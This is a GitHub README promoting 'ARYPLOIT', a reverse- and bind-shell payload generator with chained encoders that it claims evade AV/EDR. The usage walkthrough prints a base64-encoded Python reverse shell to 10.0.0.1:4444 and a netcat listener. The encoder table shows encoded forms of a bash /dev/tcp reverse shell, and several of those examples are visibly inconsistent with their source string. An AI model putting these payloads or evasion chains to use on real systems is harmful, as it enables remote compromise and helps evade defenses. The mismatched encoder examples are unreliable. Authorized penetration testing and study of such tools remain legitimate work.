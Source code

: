 <div align="center">
  <h1>🔥 ARYPLOIT</h1>
  <p>
    <strong>Metasploit-style reverse/bind shell generator with advanced encoders for red teamers & pentesters</strong>
  </p>

</div>

---

## **🚀 What is ARYPLOIT?**
**aryploit** is a **Metasploit-inspired**, **all-in-one payload generator** for **reverse shells, bind shells, and advanced encoding**. Built for **red teamers, pentesters, and CTF players**, it simplifies payload generation with **10+ encoders**, **cross-platform support (Linux/Windows/Web)**, and **evasion techniques** to bypass AV/EDR.

⚠️ **For authorized testing & educational purposes only.**

---

## **🔥 Features**
✅ **100+ Payloads** – Reverse & bind shells for **Linux, Windows, PHP, ASP, JSP, PowerShell, Python, Ruby, Perl, and more**.
✅ **Advanced Encoders** – Chain **Base64, URL, Hex, ROT13, XOR, Caesar, Binary, Octal, HTML, Unicode** for evasion.
✅ **Search & Filter** – Quickly find payloads with `search payload linux` or `search encoders base64`.
✅ **Listener Examples** – Auto-generate **Netcat, Socat, Python** listener commands.
✅ **Modular & Extensible** – Easy to add **custom payloads, encoders, and listeners**.
✅ **CTF & Red Team Ready** – Designed for **real-world engagements** and **capture-the-flag challenges**.

---

## **📌 Installation**
### **From GitHub (Recommended)**
```bash
git clone https://github.com/giriaryan694-a11y/aryploi.git
cd aryploit


pip3 install -r requirements.txt
python3 aryploit.py

1. List Payloads
 aryploit > list rev_payloads linux
reverse/linux/bash_tcp
reverse/linux/python
reverse/linux/perl
...
Filter by keyword:
 aryploit > search payload tcp
reverse/linux/bash_tcp
reverse/windows/powershell
...
2. Select a Payload
 aryploit > use reverse/linux/bash_tcp
[+] Loaded payload: reverse/linux/bash_tcp
Or use set payload:
 aryploit > set payload reverse/linux/bash_tcp
3. Set LHOST & LPORT
 aryploit > set lhost 10.0.0.1
aryploit > set lport 4444
4. Apply Encoders (Single or Chained)
 aryploit > set encoder base64,url,hex
[+] Encoder chain set: base64, url, hex
5. Generate Payload
 aryploit > generate

[+] Generated Payload:
aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjAuMC4xIiw0NDQ0KSk7b3MuZHVwMjoocy5maWxlbm8oKSwMCk9TKSwgb3MuZHVwMjoo...
6. Start a Listener
 aryploit > listener nc

[+] Listener Example (nc): nc -lvnp 4444
```
## **🛠️ Encoders (Evasion & Obfuscation)**

| Encoder   | Description                     | Example Output                          |
|-----------|---------------------------------|-----------------------------------------|
| `base64`  | Standard Base64 encoding        | `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS80NDQ0IDA+JjE=` |
| `url`     | URL encoding                    | `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F...` |
| `hex`     | Hexadecimal encoding            | `62 61 73 68 20 2d 69 20 3e 26 20 2f 64 65 76` |
| `xor`     | XOR encoding (key: `0x55`)      | `¶¬¦¬§¦¬¦§¬¶¦§¬¶¦§¬¶`                |
| `rot13`   | ROT13 cipher                    | `onfu -v >& /qri/gpc/10.0.0.1/4444 0>&1` |
| `reverse` | Reverse the string              | `1>0& 4444/1.0.0.10 cpd/cte/evd/ :ptth` |
| `caesar`  | Caesar cipher (shift +3)        | `edvk -l >& /gfy/wfs/10.0.0.1/4444 0>&1` |
| `binary`  | 8-bit binary                    | `01100010 01100001 01110011 01101000`    |
| `unicode` | Unicode escape                  | `\u0062\u0061\u0073\u0068`              |

## **📜 Payloads Database**

| Platform  | Type    | Payloads                                                                 |
|-----------|---------|--------------------------------------------------------------------------|
| **Windows** | Reverse | `cmd`, `powershell`, `nc`                                               |
| **Web**   | Reverse | `PHP`, `ASP`, `JSP`, `ASPX`                                             |
| **Linux** | Reverse | `bash`, `nc`, `python`, `perl`, `ruby`, `socat`, `openssl`, `telnet`     |
| **Linux** | Bind    | `nc`, `bash`, `socat`, `python`, `perl`                                  |
| **Windows** | Bind   | `nc`, `powershell`                                                      |


Full list: Run list rev_payloads or list bind_payloads.

🔍 Why ARYPLOIT?
🚀 Faster than Metasploit for quick payload generation.
🛡️ Bypasses basic AV/EDR with encoder chaining.
🎓 Perfect for learning reverse shells & evasion.
🔧 Extensible – Add your own payloads & encoders.

📢 Contributing
Contributions are welcome! Open a Pull Request or issue for:

New payloads
Better encoders
Bug fixes
Documentation improvements

Code of Conduct: Be respectful & ethical.

⚠️ Legal Disclaimer
⚠️ ARYPLOIT is for authorized testing only.
⚠️ Unauthorized use is illegal.
⚠️ The author is not responsible for misuse.

📣 Spread the Word
If you find aryploit useful, star ⭐ this repo and share it with your friends!
Follow for updates:

📜 License
This project is licensed under the MIT License – see LICENSE for details.

<div align="center">
  <sub>Built with ❤️ by <a href="https://github.com/giriaryan694-a11y">Aryan Giri</a></sub>
</div>
```
